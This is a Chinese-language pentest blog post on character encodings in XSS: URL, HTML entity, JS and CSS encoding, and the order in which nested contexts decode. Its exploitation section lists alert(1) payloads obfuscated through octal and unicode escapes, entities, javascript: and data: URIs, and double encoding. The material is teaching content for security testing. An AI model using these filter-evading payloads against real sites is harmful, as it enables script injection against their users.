 +++
date = "2017-03-30T15:25:37+08:00"
description = ""
draft = false
tags = ["xss"]
title = "XSS中的编码"
topics = ["Pentest"]

+++

### 0x00 浏览器解析
> ```
浏览器收到服务器发来的HTML内容，会从头解析，遇到<script></script>时，会调用js脚本解析器来解析并执行脚本，然后继续解析其他的HTML内容，对于需要触发才能执行的事件，当事件触发时脚本解析器才会解析其中的脚本，在这之前它是HTML的一部分
```

### 0x01 一些编码
* URL编码
```
%+字符的ASCII编码对应的两位十六进制，如"/"的url编码为"%2F"
```

* HTML编码
    * 实体编码
    ```
    &开头分号结尾，如 "<" 的编码是 "&lt;"
    ```

    * 字符编码
    ```
    样式为"&#数值;"，数值可为10进制、16进制ASCII编码或unicode字符编码
    如"<"可编码为"&#060;"和"&#x3c;"，但是必须在属性值里面
    ```

* JS编码
```
1、两个十六进制数字，如果不够个数，前面补0，例如"<"编码为"\x3c"
2、三个八进制数字，如果不够个数，前面补0，例如"<"编码为"\074"
3、四个十六进制数字，如果不够个数，前面补0，例如"<"编码为"\u003c"
4、对于一些控制字符，使用特殊的C类型的转义风格（例如\n和\r）
```

* CSS编码
```
反斜线(\\)后跟1~6位的16进制数字，如"e"为"\65"或"65"或"00065"
```

### 0x02 编码与解码顺序
> 解码时先解码最外层，编码时先编码最内层
```html
如<td onclick="openUrl(add.do?userName='{$value}');">11</td>，
首先value出现在url中，而url在js中，而js又是html一部分，所以
解码顺序为：html解码->js解码->url解码
编码顺序为：url编码->js编码->html编码
```

### 0x03 利用
* 八进制
```
<p id="test"></p>
<script type="text/javascript">
var test = "\74\151\155\147\40\163\162\143\75\170\40\157\156\145\162\162\157\162\75\141\154\145\162\164\50\61\51\76";
var p = document.getElementById('test'); #这里会进行js解码
p.innerHTML = test;
</script>
```

* 十进制和十六进制
```
<img src=x onerror="\u0061\u006c\u0065\u0072\u0074(1)">
<img src=x onerror="&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;">
```

* javascript协议
```
<a href="javascript:alert(1)">xxx</a>
```

* data协议
```
<a href="data:text/html,<script>alert(1)</script>">xxxxxx</a>
<a href="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">111</a>
<meta http-equiv="refresh" content="x;url=data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">
```

* html5新增实体编码
```
<a href="javasc&NewLine;ript&colon;alert(1)">aaaa</a>
```

* 多次编码
```
点击后跳转到url，进行url解码
<a href="javascript:%61lert(1)">xxxx</a>
先最外围的html解码，然后href里的url解码
<a href="j&#x0061;vascript:&#x25;61lert(1)">click me</a>
```